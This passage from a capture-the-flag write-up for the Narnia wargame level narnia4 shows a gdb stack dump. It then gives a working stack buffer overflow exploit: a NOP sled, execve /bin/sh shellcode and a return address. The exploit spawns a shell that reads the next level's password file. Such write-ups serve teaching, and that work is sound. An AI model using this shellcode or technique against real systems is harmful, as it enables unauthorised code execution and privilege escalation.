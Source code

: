 ```sourceCode
0xffffd730: 0x0000000e  0x000036b4  0x00000017  0x00000000
0xffffd740: 0x00000019  0xffffd76b  0x0000001f  0xffffdfe2
0xffffd750: 0x0000000f  0xffffd77b  0x00000000  0x00000000
0xffffd760: 0x00000000  0x00000000  0x9e000000  0x9213cb6c
0xffffd770: 0x8eef41b1  0xe0574cc7  0x69a73659  0x00363836
0xffffd780: 0x00000000  0x00000000  0x00000000  0x2f000000
0xffffd790: 0x656d6167  0x616e2f73  0x61696e72  0x72616e2f
0xffffd7a0: 0x3461696e  0x61616100  0x61616161  0x61616161
0xffffd7b0: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd7c0: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd7d0: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd7e0: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd7f0: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd800: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd810: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd820: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd830: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd840: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd850: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd860: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd870: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd880: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd890: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd8a0: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd8b0: 0x61616161  0x62626261  0x00000062  0x00000000
0xffffd8c0: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd8d0: 0x00000000  0x00000000  0x00000000  0x00000000
```

Our input starts at around _0xffffd7a8_ so let's get going writing our payload. Create a nopsled that is _272 - 25_ bytes long, follow that with the the same shellcode as before, and finish with an address that sits comfortably in the sled. You normally need to play with the address a bit, as the offsets inside _gdb_ are a bit different.

```sourceCode
narnia4@melinda:/narnia$ ./narnia4 `python -c "print '\x90'*(272-25) + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x30\xd8\xff\xff'"`
$ whoami
narnia5
$ cat /etc/narnia_pass/narnia5
[password]
```
